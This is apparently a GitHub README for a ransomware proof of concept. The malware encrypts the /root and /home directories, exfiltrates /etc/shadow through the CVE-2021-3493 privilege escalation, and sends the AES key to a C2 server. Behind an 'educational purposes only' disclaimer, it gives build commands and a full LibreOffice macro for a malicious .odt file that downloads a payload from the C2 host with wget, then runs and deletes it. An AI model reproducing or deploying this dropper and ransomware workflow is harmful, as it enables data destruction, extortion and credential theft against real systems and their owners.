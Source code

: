 # Ransomware
> [!WARNING]
> EDUCATIONAL PURPOSES ONLY
>
>This project is intended solely for educational and research purposes in the context of cybersecurity training. It is designed to study and understand ransomware mechanics in a legal and controlled environment.
>
>DO NOT use this code for malicious purposes. Deploying ransomware on any system without explicit permission is illegal and can result in severe legal consequences.
>
>By using this project, you agree to abide by all applicable laws and take full responsibility for your actions. The author assumes no liability for any misuse.

## Description

This repository is a PoC of a ransomware that encrypts `/root` and `/home` directories and exfiltrates the `/etc/shadow` file using the CVE-2021-3493 vulnerability. It encrypts the file using AES and sends the AES key to the C2 server, where it is encrypted using RSA.

The target machine must meet the following requirements:
- Ubuntu 20.10
- Ubuntu 20.04 LTS
- Ubuntu 19.04
- Ubuntu 18.04 LTS
- Ubuntu 16.04 LTS
- Ubuntu 14.04 ESM

Additionally, the Linux kernel version must be < 5.11.

The original exploit can be found here: [CVE-2021-3493 exploit](https://github.com/briskets/CVE-2021-3493)

## Requirement

```bash
sudo apt update
sudo apt install wget make gcc libssl-dev xz-utils build-essential pkg-confi
pip instal -r requirements.txt
```
The execution of macros must be authorized, and the AppArmor sandbox for LibreOffice must be disabled.


## Generating RSA Keys
Before anything else, we need to generate our RSA key pair.

Run the following commands to create your private and public keys:
```bash
openssl genpkey -algorithm RSA -out private.pem -pkeyopt rsa_keygen_bits:2048  
openssl rsa -pubout -in private.pem -out public.pem  
```

## Make the binary static
We need to build the libcurl library. Follow these steps:
```bash
wget https://curl.se/download/curl-8.12.1.tar.xz
tar xvf curl-8.12.1.tar.xz
cd  curl-8.12.1
CC=musl-gcc ./configure --disable-shared --enable-static --prefix=/tmp/curl --disable-ldap --disable-sspi --without-librtmp --disable-ftp --disable-file --disable-dict --disable-telnet --disable-tftp --disable-rtsp --disable-pop3 --disable-imap --disable-smtp --disable-gopher --disable-smb --without-libidn --without-ssl --without-nghttp2 --disable-mqtt --without-zlib --without-brotli --without-zstd --without-libpsl --without-libidn2 --disable-docs
make && make install
```
For simplicity, this build process is also defined in the Makefile.

## Malicious file
To deploy the ransomware, we will use a malicious file.odt that contains a malicious macro:
```vba
Sub Main
	Shell("bash -c 'wget http://{C2_SERVER_IP}:8000/ -O /tmp/not_a_malware && chmod +x /tmp/not_a_malware && /tmp/not_a_malware && rm /tmp/not_a_malware'")
End Sub
```
Check this link for instructions on how to add it: [LibreOffice Macro Exploit](https://exploit-notes.hdks.org/exploit/malware/libreoffice-macros/).

## Compiling
Simply run the following command to compile the project:
```bash
make SERVER_IP="{C2_SERVER_IP}"
```

## Demo
[!Demo](https://github.com/user-attachments/assets/36d123e0-5b12-43f4-bb25-d6675cae70b7)